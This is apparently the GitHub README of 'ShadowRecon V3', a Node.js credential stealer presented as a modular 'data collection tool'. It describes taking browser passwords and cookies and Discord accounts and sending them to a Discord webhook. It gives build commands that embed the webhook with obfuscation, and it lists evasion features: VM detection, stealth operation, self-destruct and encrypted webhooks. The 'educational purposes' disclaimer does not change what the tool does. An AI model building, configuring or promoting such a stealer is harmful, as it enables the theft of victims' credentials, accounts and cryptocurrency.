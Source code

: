 # 🔥 ShadowRecon V3 - Modular Edition

A completely restructured, clean, modular, and efficient data collection tool with professional architecture.

## ⚡ Quick Start

```bash
# Install dependencies
npm install

# Run in development mode
npm start

# Build executable
./build.sh https://your-webhook-url.com MyApp

# Build with obfuscation
./build.sh https://your-webhook-url.com MyApp --obfuscate --compress
```

## 🏗️ What's New in V3

### ✨ Complete Architecture Overhaul
- **Modular Design**: Independent, reusable modules
- **Clean Code**: Professional structure and documentation
- **Error Handling**: Comprehensive error management
- **Logging**: Structured logging system
- **Configuration**: Centralized config management

### 📁 New Structure
```
src/
├── config/           # Configuration management
├── core/            # Core utilities and systems
├── modules/         # Feature modules (browsers, crypto, etc.)
├── services/        # External services (discord, upload)
└── main.js         # Application entry point
```

### 🚀 Key Features
- **Cross-platform**: Works on Windows, Linux, macOS
- **Modular**: Enable/disable features independently
- **Efficient**: Optimized performance and resource usage
- **Professional**: Clean code with proper error handling
- **Documented**: Comprehensive documentation

## 📊 Modules

| Module | Status | Description |
|--------|---------|-------------|
| 🌐 Browsers | ✅ Active | Chrome, Firefox, Edge, Opera, Brave |
| 💬 Discord | ✅ Active | Account extraction & webhooks |
| 💰 Crypto | 🔄 Planned | Cryptocurrency wallets |
| 📁 Files | 🔄 Planned | File system scanning |
| 🎮 Games | 🔄 Planned | Gaming platforms |
| 💉 Injection | 🔄 Planned | Browser injection |

## ⚙️ Configuration

### Environment Variables
```bash
WEBHOOK_URL=https://discord.com/api/webhooks/...
NODE_ENV=production
LOG_LEVEL=INFO
ENABLE_BROWSERS=true
ENABLE_DISCORD=true
```

### Configuration File
```json
{
  "webhook": {
    "url": "https://discord.com/api/webhooks/YOUR_WEBHOOK_HERE"
  },
  "modules": {
    "enabled": {
      "browsers": true,
      "discord": true,
      "crypto": false,
      "files": false
    }
  }
}
```

**Note:** You can use plain text webhook URLs - they will be automatically encrypted on first run!

## 🔨 Building

The new modular build system supports:
- Code obfuscation
- Multi-platform targets
- Compression options
- Configuration injection

```bash
# Basic build
node build/builder.js <webhook> <name>

# Advanced build
node build/builder.js <webhook> <name> --obfuscate --compress --target node16-win-x64
```

## 📚 Documentation

- [Full Documentation](docs/README.md)
- [Architecture Guide](docs/README.md#architecture-overview)
- [Module Development](docs/README.md#development)

## 🛡️ Security

- VM detection (configurable)
- Stealth operation
- **Encrypted webhook URLs** - Webhooks are automatically encrypted to prevent casual reading
- Self-destruct options
- Obfuscated builds

### Webhook Encryption

ShadowRecon automatically encrypts webhook URLs to prevent them from being easily readable by malicious users:

**🔥 Automatic Encryption on Startup**
- Simply put your plain text webhook URL in `config.json`
- The application will automatically encrypt it on first run
- No manual encryption required! The webhook is secured automatically

```json
{
  "webhook": {
    "url": "https://discord.com/api/webhooks/YOUR_WEBHOOK_HERE"
  }
}
```

After first run, the webhook will be automatically encrypted in the config file.

**Manual Webhook Management** (optional):
```bash
# Utility for managing encrypted webhooks
node webhook-util.js encrypt <webhook_url>     # Encrypt a webhook URL
node webhook-util.js decrypt <encrypted_data>  # Decrypt an encrypted webhook  
node webhook-util.js show-config               # Show decrypted webhook from config
node webhook-util.js encrypt-config            # Encrypt webhook in config.json
```

**Encryption Features:**
- **Automatic encryption on startup** - No manual intervention needed
- Uses AES-256-GCM encryption with system-derived keys
- Automatically applied during build process
- Maintains backward compatibility with already-encrypted webhooks
- Protects against casual inspection of configuration files
- Transparent decryption when webhook is accessed by the application

## 📊 Statistics

Real-time tracking of:
- Browser data (passwords, cookies, etc.)
- System information
- Module execution status
- File operations

## 🤝 Contributing

This project follows professional development standards:
- Modular architecture
- Comprehensive error handling
- Structured logging
- Clean code principles

## ⚠️ Disclaimer

This tool is for educational and authorized testing purposes only. Users are responsible for compliance with applicable laws and regulations.

## 📜 License

MIT License - See LICENSE file for details.

---

*Built with ❤️ for the security research community*